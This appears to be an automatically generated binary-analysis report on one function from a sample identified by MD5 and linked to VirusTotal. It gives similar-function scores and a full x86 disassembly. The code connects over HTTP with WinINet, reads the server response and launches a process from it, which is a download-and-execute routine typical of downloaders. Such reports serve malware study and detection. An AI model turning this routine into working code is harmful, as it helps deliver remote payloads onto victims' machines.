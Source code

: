 ```yaml
---
layout: post
title:  "fcn.004053a0 @ a1c6b07868a0eea8f4ee5a872aa71909"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.004053a0
- **Origin (md5):** a1c6b07868a0eea8f4ee5a872aa71909
- **VirusTotal:** [virustotal.com/gui/file/a1c6b07868a0eea8f4ee5a872aa71909][virustotal_ref]

# Code Tags
<span class="tag" id="HTTP">HTTP</span>
<span class="tag" id="PROCESS">PROCESS</span>


# Similar Functions

1. [fcn.00404580][similar_1_ref] (sim.: 0.9225230060944951)
2. [fcn.10005f30][similar_2_ref] (sim.: 0.8968155163804665)
3. [fcn.00408210][similar_3_ref] (sim.: 0.8938553218805568)
4. [fcn.004160f0][similar_4_ref] (sim.: 0.8916129707760416)
5. [fcn.1008e5b0][similar_5_ref] (sim.: 0.888633272291502)


# Disassembled Code

{% highlight nasm %}
push ebp
lea ebp,[esp-0x4f8]
sub esp,0x4f8
push 0xffffffffffffffff
push 0x43f04d
mov eax,dword fs:[0]
push eax
sub esp,0x84
mov eax,dword[0x4535c4]
xor eax,ebp
mov dword[ebp+0x4f4],eax
push ebx
push esi
push edi
push eax
lea eax,[ebp-0xc]
mov dword fs:[0],eax
mov dword[ebp-0x10],esp
mov eax,dword[ebp+0x500]
mov edi,dword[eax]
mov eax,dword[edi*4+0x457628]
mov ebx,ecx
mov ecx,dword[eax+8]
push edi
push ecx
push 0x44837c
mov dword[ebp-0x1c],ebx
mov dword[ebp-0x20],edi
call fcn.00428d8c
add esp,0xc
push 0
push 0
push 0
push 0
push str.Test
call dword[sym.imp.WININET.dll_InternetOpenA]
mov dword[ebx+edi*4+0x804],eax
test eax,eax
jne 0x40544a
call dword[sym.imp.KERNEL32.dll_GetLastError]
mov edx,dword[edi*4+0x457628]
push eax
mov eax,dword[edx+8]
push eax
push str._s___Failed_in_call_to_InternetOpen__Error:_d_n
call fcn.00428d8c
add esp,0xc
jmp 0x405a06
push 0x405c40
push eax
call dword[sym.imp.WININET.dll_InternetSetStatusCallback]
cmp eax,0xffffffff
jne 0x40547f
call dword[sym.imp.KERNEL32.dll_GetLastError]
mov ecx,dword[edi*4+0x457628]
mov edx,dword[ecx+8]
push eax
push edx
push str._s___Failed_in_call_to_InternetSetStatusCallback__Error:_d_n
call fcn.00428d8c
add esp,0xc
jmp 0x405a06
mov eax,dword[edi*4+0x457628]
mov ecx,dword[eax+0x28]
mov edx,dword[eax+0x24]
mov eax,dword[eax+0xc]
push ecx
push edx
push eax
push str._s___serverPath___s__suffix___s_n
call fcn.00428d8c
mov ecx,dword[edi*4+0x457628]
mov eax,dword[ecx+0x24]
mov edx,dword[ebx+edi*4+0x804]
add esp,0x10
push 0
push 0
push 3
push 0x4489d3
push 0x4489d3
push 0x50
push eax
push edx
call dword[sym.imp.WININET.dll_InternetConnectA]
mov dword[ebx+edi*4+0x854],eax
test eax,eax
jne 0x4054f9
call dword[sym.imp.KERNEL32.dll_GetLastError]
push eax
mov eax,dword[edi*4+0x457628]
mov ecx,dword[eax+8]
push ecx
push str._s___Failed_in_call_to_InternetConnect__Error:_d_n
call fcn.00428d8c
add esp,0xc
jmp 0x405a06
mov eax,dword[edi*4+0x457628]
mov dword[ebp-0x38],0x4480f4
mov dword[ebp-0x34],0
mov edx,dword[eax+0xc]
mov eax,dword[eax+0x28]
push edx
push eax
lea ecx,[ebp+0x400]
push str._s_s
push ecx
call dword[sym.imp.USER32.dll_wsprintfA]
mov ecx,dword[ebx+edi*4+0x854]
add esp,0x10
push ebx
push 0x84400000
lea edx,[ebp-0x38]
push edx
push 0
push 0
lea eax,[ebp+0x400]
push eax
push 0x4480f8
push ecx
call dword[sym.imp.WININET.dll_HttpOpenRequestA]
mov dword[ebx+edi*4+0x8a4],eax
test eax,eax
jne 0x405582
call dword[sym.imp.KERNEL32.dll_GetLastError]
mov edx,dword[edi*4+0x457628]
push eax
mov eax,dword[edx+8]
push eax
push str._s___Failed_in_call_to_HttpOpenRequest__Error:_d_n
call fcn.00428d8c
add esp,0xc
jmp 0x405a06
push str.HttpSendRequest
call fcn.00428d8c
mov ecx,dword[ebx+edi*4+0x8a4]
add esp,4
push 0
push 0
push 0
push 0
push ecx
call dword[sym.imp.WININET.dll_HttpSendRequestA]
test eax,eax
je 0x4056cb
push str.HttpSendRequest
call fcn.00428d8c
mov ecx,dword[ebx+edi*4+0x8a4]
add esp,4
push 0
lea edx,[ebp-0x24]
push edx
lea eax,[ebp+0x4d4]
push eax
push 0x13
push ecx
mov dword[ebp-0x24],0x20
call dword[sym.imp.WININET.dll_HttpQueryInfoA]
test eax,eax
je 0x4056ef
lea edx,[ebp+0x4d4]
push edx
call fcn.00428e51
mov esi,eax
mov eax,dword[edi*4+0x457628]
mov ecx,dword[eax+8]
push esi
push ecx
push str._s___statusCode_:__d_n
call fcn.00428d8c
add esp,0x10
cmp esi,0x197
je 0x405621
cmp esi,0x191
jne 0x405713
mov edx,dword[edi*4+0x457628]
mov eax,dword[edx+8]
push eax
push str._s___internetReadFile___n
call fcn.00428d8c
add esp,8
lea esp,[esp]
mov eax,dword[ebx+edi*4+0x8a4]
lea ecx,[ebp-0x28]
push ecx
push 0x32
lea edx,[ebp+0x480]
push edx
push eax
call dword[sym.imp.WININET.dll_InternetReadFile]
cmp dword[ebp-0x28],0
jne 0x405640
mov ecx,dword[ebx+edi*4+0x8a4]
push 0
push 7
push 0x2eee
push ecx
mov ecx,ebx
call fcn.00401000
push eax
call dword[sym.imp.WININET.dll_InternetErrorDlg]
cmp eax,0x2f00
jne 0x405739
mov edx,dword[edi*4+0x457628]
mov eax,dword[edx+8]
push eax
push str._s___goto_resend
call fcn.00428d8c
push str.HttpSendRequest
call fcn.00428d8c
mov ecx,dword[ebx+edi*4+0x8a4]
add esp,0xc
push 0
push 0
push 0
push 0
push ecx
call dword[sym.imp.WININET.dll_HttpSendRequestA]
test eax,eax
jne 0x4055ad
call dword[sym.imp.KERNEL32.dll_GetLastError]
mov edx,dword[edi*4+0x457628]
push eax
mov eax,dword[edx+8]
push eax
push str._s___Failed_in_call_to_HttpSendRequest__Error:_d_n
call fcn.00428d8c
add esp,0xc
jmp 0x405a06
call dword[sym.imp.KERNEL32.dll_GetLastError]
mov ecx,dword[edi*4+0x457628]
mov edx,dword[ecx+8]
push eax
push edx
push str._s___Failed_in_call_to_HttpQueryInfo_for_HTTP_query_status_code__Error:_d_n
call fcn.00428d8c
add esp,0xc
jmp 0x405a06
cmp esi,0xc8
je 0x405739
mov eax,dword[edi*4+0x457628]
mov ecx,dword[eax+8]
push esi
push ecx
push str._s___Failed_to_retrieve_a_HTTP_200_status__Status_Code:_d_n
call fcn.00428d8c
add esp,0xc
jmp 0x405a06
mov esi,0x6c
call fcn.00406560
mov ecx,dword[ebx+edi*4+0x8a4]
push 0
lea edx,[ebp-0x24]
push edx
lea eax,[ebp+0x4b4]
push eax
push 5
push ecx
mov dword[ebp-0x24],0x20
call dword[sym.imp.WININET.dll_HttpQueryInfoA]
mov esi,0x74
call fcn.00406560
call dword[sym.imp.KERNEL32.dll_GetTickCount]
mov edx,dword[edi*4+0x457628]
xor eax,eax
mov dword[ebp-0x18],eax
mov dword[ebp-0x14],eax
mov eax,dword[edx+8]
push eax
push edi
push str._d___s___
mov esi,0x400
call fcn.00428d8c
add esp,0xc
lea ecx,[ecx]
mov eax,dword[ebx+edi*4+0x8a4]
lea ecx,[ebp-0x18]
push ecx
push esi
lea edx,[ebp]
push edx
push eax
call dword[sym.imp.WININET.dll_InternetReadFile]
test eax,eax
jne 0x4057ea
call dword[sym.imp.KERNEL32.dll_GetLastError]
mov ecx,dword[edi*4+0x457628]
mov edx,dword[ecx+8]
push eax
push edx
push str._s___Failed_in_call_to_InternetReadFile__Error:_d_n
call fcn.00428d8c
add esp,0xc
push 0x72
xor ecx,ecx
mov edi,ebx
call fcn.00406e70
jmp 0x405a06
cmp dword[ebp-0x18],0
je 0x40583d
lea ecx,[ebp-0x2c]
call fcn.00413faa
mov dword[ebp-4],0
mov eax,edi
shl eax,4
mov byte[ebp-4],1
mov edx,dword[eax+ebx+0x924]
mov edx,dword[edx+0x38]
lea ecx,[eax+ebx+0x924]
mov eax,dword[ebp-0x18]
push eax
lea eax,[ebp]
push eax
call edx
mov dword[ebp-4],0xffffffff
call fcn.00413fc2
mov eax,dword[ebp-0x18]
add dword[ebp-0x14],eax
test eax,eax
jne 0x4057a0
mov eax,dword[edi*4+0x457628]
mov ecx,dword[eax+8]
push ecx
push edi
push str._d__s__
call fcn.00428d8c
add esp,0xc
lea ecx,[ebp-0x14]
call fcn.00401640
lea ecx,[ebp-0x28]
mov dword[ebp-4],3
call fcn.00401640
mov byte[ebp-4],4
mov eax,dword[edi*4+0x457628]
add eax,0x50
push eax
lea ecx,[ebp-0x14]
call fcn.004084b0
mov eax,dword[edi*4+0x457628]
lea edx,[eax+0xc]
push edx
add eax,0x1c
push eax
lea eax,[ebp-0x30]
push eax
call fcn.00407f80
push 0x44862c
push eax
lea ecx,[ebp-0x20]
push ecx
mov byte[ebp-4],5
call fcn.00408040
lea edx,[ebp-0x14]
push edx
push eax
lea eax,[ebp-0x1c]
push eax
mov byte[ebp-4],6
call fcn.00407f80
add esp,0x24
push eax
lea ecx,[ebp-0x28]
mov byte[ebp-4],7
call fcn.004084b0
mov byte[ebp-4],6
mov eax,dword[ebp-0x1c]
add eax,0xfffffff0
lea ecx,[eax+0xc]
or edx,0xffffffff
lock xadd dword[ecx],edx
dec edx
test edx,edx
jg 0x4058f4
mov ecx,dword[eax]
mov edx,dword[ecx]
push eax
mov eax,dword[edx+4]
call eax
mov byte[ebp-4],5
mov eax,dword[ebp-0x20]
add eax,0xfffffff0
lea ecx,[eax+0xc]
or edx,0xffffffff
lock xadd dword[ecx],edx
dec edx
test edx,edx
jg 0x405917
mov ecx,dword[eax]
mov edx,dword[ecx]
push eax
mov eax,dword[edx+4]
call eax
mov byte[ebp-4],4
mov eax,dword[ebp-0x30]
add eax,0xfffffff0
lea ecx,[eax+0xc]
or edx,0xffffffff
lock xadd dword[ecx],edx
dec edx
test edx,edx
jg 0x40593a
mov ecx,dword[eax]
mov edx,dword[ecx]
push eax
mov eax,dword[edx+4]
call eax
mov ecx,edi
shl ecx,4
mov edx,dword[ecx+ebx+0x924]
mov eax,dword[edx+0x4c]
lea ecx,[ecx+ebx+0x924]
call eax
push 0x40
lea ecx,[ebp-0x8c]
push 0
push ecx
call fcn.00429820
mov edx,dword[edi*4+0x457628]
mov dword[ebp-0x90],0x44
mov eax,dword[edx+8]
push eax
push str._s___
call fcn.00428d8c
mov edi,dword[ebp-0x28]
add esp,0x14
lea ecx,[ebp-0x4c]
push ecx
lea edx,[ebp-0x90]
push edx
push 0
push 0
push 0
push 0
push 0
push 0
push edi
push 0
call dword[sym.imp.KERNEL32.dll_CreateProcessA]
mov eax,dword[ebx+0x20]
inc dword[0x4575cc]
push 0
push 0
push 0x8001
push eax
call dword[sym.imp.USER32.dll_PostMessageA]
lea eax,[edi-0x10]
mov byte[ebp-4],3
lea ecx,[eax+0xc]
or edx,0xffffffff
lock xadd dword[ecx],edx
dec edx
test edx,edx
jg 0x4059e0
mov ecx,dword[eax]
mov edx,dword[ecx]
push eax
mov eax,dword[edx+4]
call eax
mov dword[ebp-4],0xffffffff
mov eax,dword[ebp-0x14]
add eax,0xfffffff0
lea ecx,[eax+0xc]
or edx,0xffffffff
lock xadd dword[ecx],edx
dec edx
test edx,edx
jg 0x405a06
mov ecx,dword[eax]
mov edx,dword[ecx]
push eax
mov eax,dword[edx+4]
call eax
mov ecx,dword[ebp-0xc]
mov dword fs:[0],ecx
pop ecx
pop edi
pop esi
pop ebx
mov ecx,dword[ebp+0x4f4]
xor ecx,ebp
call fcn.00428524
add ebp,0x4f8
mov esp,ebp
pop ebp
ret 4
{% endhighlight %}


[similar_1_ref]: /report/fcn.00404580@d59f9c4f445b9f980173dec064f55091
[similar_2_ref]: /report/fcn.10005f30@4c3818fdf32d89a09257dbc9d3e142ea
[similar_3_ref]: /report/fcn.00408210@0403abd1e9e066fc89cddd5736647282
[similar_4_ref]: /report/fcn.004160f0@0aa2d73a5300dff2412388945614b507
[similar_5_ref]: /report/fcn.1008e5b0@2585b133c2e70968905cce13b1fc2654
[virustotal_ref]: https://www.virustotal.com/gui/file/a1c6b07868a0eea8f4ee5a872aa71909